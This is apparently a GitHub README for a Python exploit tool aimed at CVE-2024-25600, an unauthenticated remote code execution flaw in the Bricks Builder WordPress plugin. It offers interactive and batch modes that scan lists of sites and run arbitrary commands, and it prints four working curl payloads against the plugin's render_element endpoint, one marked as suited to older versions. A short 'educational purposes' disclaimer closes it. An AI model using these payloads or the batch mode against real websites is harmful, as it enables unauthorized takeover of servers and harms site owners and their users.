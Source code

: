 # CVE-2024-25600 Exploit Tool 🚀

## Description 📝

This tool 🛠️ is designed to exploit the CVE-2024-25600 vulnerability 🕳️ found in the Bricks Builder plugin for WordPress. The vulnerability allows for unauthenticated remote code execution on affected websites 💻. The tool automates the exploitation process by retrieving nonces and sending specially crafted requests to execute arbitrary commands.

## Features 🌟

- **Interactive Mode**: Engage with the target website in real-time 🕹️.
- **Batch Mode**: Scan and exploit multiple websites from a list 📋.
- **Command Execution**: Execute arbitrary commands on the target server ⚙️.
- **Payload Customization**: Choose between different payloads for exploitation, including `generic`, `carousel`, `container`, and `code` 🧰.
- **RCE Confirmation**: Option to display and record only URLs where RCE is confirmed ✔️.

## Installation 🛠️

1. Clone this repository to your local machine 🖥️ using `git clone`.
2. Navigate to the directory of the cloned repository.
3. Install the required Python libraries using `pip install -r requirements.txt`.

## Usage 📖

### Interactive Mode 🎮

1. Run the tool with `python exploit.py -u <URL>` to start interactive mode.
2. Follow the on-screen prompts to send commands to the target server.

### Batch Mode 📊

1. Prepare a text file with a list of target URLs.
2. Run the tool with `python exploit.py -l <file_path>` to scan and exploit the listed sites.
3. Use the `--only-rce` flag to display and record only URLs where RCE is confirmed.

### Payload Customization 🧰

- Use the `--payload-type` option followed by `generic`, `carousel`, `container`, or `code` to specify the type of payload for the exploit.
  
  Example: `python exploit.py -u <URL> --payload-type generic`

## Proof of Concept (PoC) 📝

The base PoCs provided by the disclosure are as follows:

**First PoC**:
```bash
curl -k -X POST https://[HOST]/wp-json/bricks/v1/render_element \
-H "Content-Type: application/json" \
-d '{
  "postId": "1",
  "nonce": "[NONCE]",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "throw new Exception(`id`);",
        "objectType": "post"
      }
    }
  }
}'
```

**Second PoC**:
```bash
curl -k -X POST https://[HOST]/wp-json/bricks/v1/render_element \
  -H "Content-Type: application/json" \
  -d '{
  "postId": "1",
  "nonce": "[NONCE]",
  "element": {
    "name": "carousel",
    "settings": {
      "type": "posts",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "throw new Exception(`id`);",
        "objectType": "post"
      }
    }
  }
}'
```

**Third PoC** [Source](https://www.linkedin.com/feed/update/urn:li:activity:7166462514099130368):
```bash
curl -k -X POST https://[HOST]/wp-json/bricks/v1/render_element \
  -H "Content-Type: application/json" \
  -d '{
  "postId": "1",  
  "nonce": "[NONCE]",
  "element": "1",
  "loopElement": {
    "settings": {
      "query": {
        "useQueryEditor": "",
        "queryEditor": "throw new Exception(`id`);"
      }
    }
  }
}'
```

**Fourth PoC** (Effective on Older Versions):
```bash
curl -k -X POST "http://[HOST]/index.php?rest_route=/bricks/v1/render_element" \
-H "Content-Type: application/json" \
-d '{
  "postId": "1",
  "nonce": "[NONCE]",
  "element": {
    "name": "code",
    "settings": {
      "executeCode": "true",
      "code": "<?php throw new Exception(`id`);?>"
    }
  }
}'
```
> Note: The fourth PoC is particularly effective on older versions of Bricks Builder (tested on version 1.8), where previous PoCs may not work.

> It's possible that additional payloads could yield better results. If my exploit or proof of concept does not work for you, I encourage you to experiment with alternative payloads to find a more effective solution.


Replace `[HOST]` with the target website and `[NONCE]` with the nonce value retrieved from the site.

## Reference 📖

For more information about the CVE-2024-25600 vulnerability, please refer to the detailed disclosure at [Snicco.io](https://snicco.io/vulnerability-disclosure/bricks/unauthenticated-rce-in-bricks-1-9-6).

## Disclaimer ⚠️

The information provided in this README is for educational purposes only. Unauthorized hacking into websites or networks is illegal and unethical. 🚫

## Acknowledgements 🙏

Kudos to the security researchers who discovered and reported this vulnerability, providing the community with information and tools to help secure their web applications.
